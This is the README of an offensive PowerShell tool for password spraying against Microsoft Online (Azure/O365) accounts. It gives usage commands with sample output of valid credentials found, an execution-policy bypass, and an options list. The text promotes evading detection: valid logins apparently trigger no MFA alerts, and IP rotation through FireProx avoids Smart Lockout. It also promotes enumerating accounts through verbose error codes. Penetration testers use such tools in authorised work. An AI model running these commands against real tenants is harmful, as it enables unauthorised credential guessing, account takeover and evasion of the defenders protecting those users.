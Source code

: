 # MSOLSpray

A password spraying tool for Microsoft Online accounts (Azure/O365). The script logs the response of https://login.microsoft.com. This is used for example to indicating if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Why another spraying tool?

Yes, I realize there are other password spraying tools for O365/Azure. The main difference with this one is that this tool not only is looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles, as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout.

**Brought to you by:**

[<img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png">](https://www.blackhillsinfosec.com)

## Quick Start

Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass' or run the `Set-ExecutionPolicy -s p -e b` command in a existing PowerShell Session.

### Test single username and password

```PowerShell
PS C:\> Import-Module MSOLSpray.ps1
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020

Time          : 2020-08-14 12:23:44
Username      : Steve@domain.com
Password      : Winter2020
IsValid       : True
ResponseError : None.
```

### Test multiple usernames and passwords

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com,Klaas@domain.nl -Password Winter2020,Zomer2020 | Format-Table

Time                Username         Password   IsValid ResponseError
----                --------         --------   ------- -------------
2020-08-14 12:25:15 Steve@domain.com Winter2020 True    None.
2020-08-14 12:25:15 Klaas@domain.nl  Winter2020 False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Zomer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Klaas@domain.nl  Zomer2020  True    None.
```

### Test multiple usernames and passwords using userlists and passwordlists

```PowerShell
PS C:\> Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt | Format-Table

Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 Steve@domain.com Spring2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring020   False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
2020-08-14 12:25:15 John@domain.com  Winter2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
```

### Filter output to only show valid passwords

```PowerShell
PS C:\> Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt | Where-Object {$_.IsValid -eq $true} | Format-Table

Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
```

### Write valid passwords to a output file

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020,Summer2020 -OutFile C:\outfile.txt
Valid results have been written to C:\outfile.txt

PS C:\> Get-Content C:\outfile.txt
Steve@domain.com : Winter2020 : None.
```

### Invoke-MSOLSpray Options

```txt
Usernames           - Takes in a single or multiple usernames in the following format "user@domain.com". Can be combined with UsernameList option.
UsernameList        - Takes in a single or multiple UsernameList files filled with usernames. Usernames should be entered one-per-line in the following format "user@domain.com". Can be combined with Usernames option.
Passwords           - Takes in a single or multiple passwords. Can be combined with PasswordList option.
PasswordList        - Takes in a single or multiple PasswordList files with passwords. Entered one-per-line. Can be combined with Passwords option.
URL                 - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
Delay               - The delay used to wait between authentication attempts.
UserAgent           - The UserAgent PowerShell will use during the logon the password spray.
IgnoreSSL           - This will disable any SSL/TLS checks preformed by Invoke-WebRequest during the password spray.
OutFile             - A file to output valid results to.
lockout_threshold   - The threshold used to stop the spray when this many locked accounts are detected.
ValidPasswordCodes  - The ErrorCodes that indicate a password was valid but can not be used for reason X.
LockoutCodes        - The ErrorCodes that indicates if a account is locked.
DisableUniqueValues - By default the usernames and passwords are checked for duplicates. Use this switch to disable this check.
Force               - Forces the spray to continue and not stop when multiple account lockouts are detected.
```

